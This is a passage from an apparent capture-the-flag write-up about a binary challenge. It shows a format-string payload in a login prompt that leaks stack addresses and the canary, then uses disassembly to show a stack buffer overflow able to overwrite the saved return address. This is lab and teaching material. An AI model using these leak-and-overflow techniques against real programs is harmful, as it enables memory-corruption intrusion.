 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food    |
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]: 1

           Log in on Twitter:
           username: %p.%p.%p.%p.%p.%p.%p.%p
           password: n07_7h3_fl46

Checking 0xa.0x7ffff7b0ce50.0x7ffff7fd8700.0x555555556ac0.(nil).0xeaa546f902a74f00.0x7ffff7dd7710.0x7ffff7dd7718
Twitter account
............</code></pre>
It is thus possible to read up the stack. The leaked values are indeed interesting and will be used later:
<ul>
        <li><em>0x7ffff7...</em> look like libc addresses</li>
        <li><em>0xeaa546f902a74f00</em> looks like the canary</li>
</ul>
<h3 id="vuln2-stack-overflow">Vuln2: stack overflow</h3>
The second vulnerability is triggered when reading the content to tweet. It reads from stdin (0) and store the result on the stack
<pre><code>:::
[0x00000ac0]&gt; iz | grep '#&gt;'
vaddr=0x00002adb paddr=0x00002adb ordinal=019 sz=16 len=15 section=.rodata type=ascii string=\n           #&gt;
[0x00000ac0]&gt; axt 0x00002adb
data 0x1007 lea rsi, [rip + 0x1acd] in sub.__printf_chk_0
[0x00000ac0]&gt; pd @0x1007
...
0x00001032      31ff           xor edi, edi // 0 == STDIN
0x00001034      4889e6         mov rsi, rsp // buffer on the stack
0x00001037      ba00080000     mov edx, section..rela.plt  ; "@? " @ 0x800
0x0000103c      31c0           xor eax, eax
0x0000103e      e8ddf9ffff     call sym.imp.read
...</code></pre>
We read up to 0x800 (2048) from stdin to the buffer (on the stack). If we consider the whole block, only 0x418 (1048) are reserved on the stack. We can thus overwrite saved RIP
<pre><code>:::
sub rsp, 0x418                  | reserve 1048
lea rsi, [rip + 0x1acd]         |
mov edi, 1                      |
mov rax, qword fs:[0x28]        | get the canary
mov qword [rsp + 0x408], rax    | store canary at 1032
xor eax, eax                    |
call sym.imp.__printf_chk ;[a]  |
xor edi, edi                    |
call sym.imp.fflush ;[b]        |
xor edi, edi                    | 0 == stdin
mov rsi, rsp                    | buffer on the stack
mov edx, section..rela.plt      | 0x800
xor eax, eax                    |
call sym.imp.read ;[c]          |
lea rdi, [rip + 0x1aa1]         |
call sym.imp.puts ;[d]          |